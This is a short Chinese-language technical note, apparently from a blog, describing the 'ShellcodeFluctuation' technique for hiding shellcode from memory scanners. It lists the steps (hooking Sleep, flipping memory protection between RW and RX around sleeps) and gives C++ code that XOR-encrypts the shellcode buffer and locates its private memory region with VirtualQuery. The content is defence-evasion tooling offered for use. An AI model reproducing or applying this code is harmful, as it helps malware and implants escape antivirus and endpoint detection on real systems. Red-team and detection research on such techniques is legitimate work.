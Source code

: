  

-   ShellcodeFluctuation  
    

1.  Hook Sleep 函数
    
2.  定位内存中的shellcode
    
3.  睡眠期间翻转为RW
    
4.  睡眠结束翻转为RX
    
5.  无限循环，以此规避内存扫描
    

关键部分代码：

  

XOR加密：

```plain
void xor32(uint8_t* buf, size_t bufSize, uint32_t xorKey)
{
    uint32_t* buf32 = reinterpret_cast<uint32_t*>(buf);

    auto bufSizeRounded = (bufSize - (bufSize % sizeof(uint32_t))) / 4;
    for (size_t i = 0; i < bufSizeRounded; i++)
    {
        buf32[i] ^= xorKey;
    }

    for (size_t i = 4 * bufSizeRounded; i < bufSize; i++)
    {
        buf[i] ^= static_cast<uint8_t>(xorKey & 0xff);
    }
}
```

```plain
定位内存中的shellcode地址：
```

```plain
bool isShellcodeThread(LPVOID address)
{
    MEMORY_BASIC_INFORMATION mbi = { 0 };
    if (VirtualQuery(address, &mbi, sizeof(mbi)))
    {
        //
        // To verify whether address belongs to the shellcode's allocation, we can simply
        // query for its type. MEM_PRIVATE is an indicator of dynamic allocations such as VirtualAlloc.
        //
        if (mbi.Type == MEM_PRIVATE)
        {
            const DWORD expectedProtection = (g_fluctuate == FluctuateToRW) ? PAGE_READWRITE : PAGE_NOACCESS;

            return ((mbi.Protect & PAGE_EXECUTE_READ)
                || (mbi.Protect & PAGE_EXECUTE_READWRITE)
                || (mbi.Protect & expectedProtection));
        }
    }

    return false;
}
```
